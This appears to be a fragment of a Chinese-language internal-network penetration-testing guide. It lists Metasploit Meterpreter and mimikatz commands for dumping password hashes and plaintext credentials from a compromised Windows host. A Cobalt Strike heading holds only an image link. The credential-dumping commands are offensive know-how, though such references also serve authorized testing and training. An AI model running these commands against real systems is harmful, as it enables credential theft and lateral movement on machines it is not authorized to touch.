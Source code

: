 ### metaspoit框架

```sh
反弹的shell提升到system权限
run windows/gather/smart_hashdump

load mimikatz

msv 获取hash
keyberos 获取明文
ssp 获取明文信息
tspkg 尝试检索tspkg凭据
wdigest 尝试检索wdugest凭据
mimikatz_command -f samdump::hashes 获取hash
mimikatz_command -f sekurlsa::searchPasswords 获取明文密码
```





### cobalt strike框架

![image-20210831003000042](内网渗透/image-20210831003000042.png)
